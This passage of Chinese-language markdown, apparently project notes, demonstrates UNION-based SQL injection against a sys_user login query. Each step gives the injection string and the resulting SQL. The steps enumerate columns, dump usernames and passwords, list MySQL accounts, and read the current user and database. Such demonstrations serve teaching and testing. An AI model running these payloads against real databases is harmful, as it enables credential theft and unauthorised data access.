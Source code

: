 ### 曝表字段
- 攻击语句
```sql
-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='i2f_proj' and table_name='sys_user' --
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='i2f_proj' and table_name='sys_user' --
```

## 曝数据
- 攻击语句
```sql
-1'union select 1,concat(username,'/',password),3 from sys_user where id=1 --
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1'union select 1,concat(username,'/',password),3 from sys_user where id=1 --
```

### 曝用户名
- 攻击语句
```sql
-1'union select 1,group_concat(concat(host,'@',user)),3 from mysql.user --
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1'union select 1,group_concat(concat(host,'@',user)),3 from mysql.user --
```

## 获取当前用户
- 攻击语句
```sql
-1'union select 1,user(),3 from dual --
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1'union select 1,user(),3 from dual --
```

### 获取当前数据库
- 攻击语句
```sql
-1'union select 1,database(),3 from dual --
```
- 最终执行SQL
```sql
SELECT id,username,realname FROM sys_user 
WHERE username='-1'union select 1,database(),3 from dual --
```
